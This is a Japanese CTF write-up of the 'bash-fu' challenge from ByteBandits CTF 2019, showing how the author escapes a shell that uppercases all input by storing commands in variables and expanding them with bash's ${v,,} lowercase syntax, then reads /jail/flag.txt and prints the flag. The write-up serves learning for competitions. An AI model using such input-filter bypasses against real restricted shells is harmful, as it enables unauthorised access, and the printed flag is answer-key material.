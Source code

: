 ```yaml
---
title: bash-fu (ByteBandits CTF 2019)
date: 2019-04-14
tags: ["ByteBandits CTF 2019"]
categories: [CTF, misc]
---
```


{% asset_img problem.png %}

## 解説

とりあえず `nc 13.234.130.76 7002` を実行する。

```shell
$ nc 13.234.130.76 7002
bash: cannot set terminal process group (1): Not a tty
bash: no job control in this shell
bash-4.4$ ls
ls
bash: LS: command not found
bash-4.4$ pwd
pwd
bash: PWD: command not found
```

一瞬、`CAPSLOCK` がバグったのかと思ったけど、そうではなくこれが問題だった。

入力した文字が全て大文字として解釈されるため、コマンドが何も実行できないという感じ。

ちょっと調べたら `${v,,}` で小文字にできることがわかったので、あとは簡単だった。

```shell
bash-4.4$ l="ls /"
bash-4.4$ ${l,,}
${l,,}
bin    etc    jail   media  opt    root   sbin   sys    usr
dev    home   lib    mnt    proc   run    srv    tmp    var
```

`jail` っていうディレクトリは普通存在しないし、普通に怪しいのでこの中を ls してみる。

```shell
bash-4.4$ l="ls /jail/"
bash-4.4$ ${l,,}
${l,,}
flag.txt  jail
```

`flag.txt` にたぶんフラグが書いてあるだろうから、`cat` して終わり。

```shell
bash-4.4$ l="cat /jail/flag.txt"
l="cat /jail/flag.txt"
bash-4.4$ ${l,,}
${l,,}
flag{b@$h_jails_are_3asy_p3@sy}
```

### 失敗談

最初は `l="bash"` で入って `cat /jial/flag.txt` したんだけど、なぜか上手く行かなかった。

今試してみたら上手くいったので、何か変なことしてたんだろうなぁ・・・。

```shell
bash-4.4$ l="bash"; ${l,,}
l="bash"; ${l,,}
bash: cannot set terminal process group (1): Not a tty
bash: no job control in this shell
bash: /root/.bashrc: Permission denied

bash-4.4$ ls -al /jail/
ls -al /jail/
total 16
drwxr-xr-x    1 root     root          4096 Apr 13 03:22 .
drwxr-xr-x    1 root     root          4096 Apr 13 14:30 ..
-rw-r--r--    1 root     root            32 Apr 11 21:32 flag.txt
-rwxrwxrwx    1 root     root           466 Apr 12 16:45 jail

bash-4.4$ cat /jail/flag.txt
cat /jail/flag.txt
flag{b@$h_jails_are_3asy_p3@sy}
```

## フラグ

`flag{b@$h_jails_are_3asy_p3@sy}`

## 参考リソース

- [Bashで変数を大文字小文字変換(uppercase/lowercase)する](https://qiita.com/kawaz/items/211266021515b3f033a3)